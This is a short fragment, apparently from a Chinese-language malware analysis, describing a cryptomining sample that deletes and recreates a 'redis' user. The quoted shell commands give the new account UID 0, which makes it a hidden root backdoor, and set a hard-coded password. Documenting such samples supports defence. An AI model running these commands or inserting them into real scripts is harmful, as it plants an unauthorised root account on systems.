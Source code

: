 - 挖矿样本内置删除和添加用户的操作

  ```
  export PATH=$PATH:/bin:/usr/bin:/usr/local/bin:/sbin:/usr/sbin:/usr/local/sbin
  userdel -r redis
  useradd -o -u 0 -g 0 redis  &>/dev/null
  echo "abcd-1234-!" |passwd--stdin redis &>/dev/null
  ```

  ​

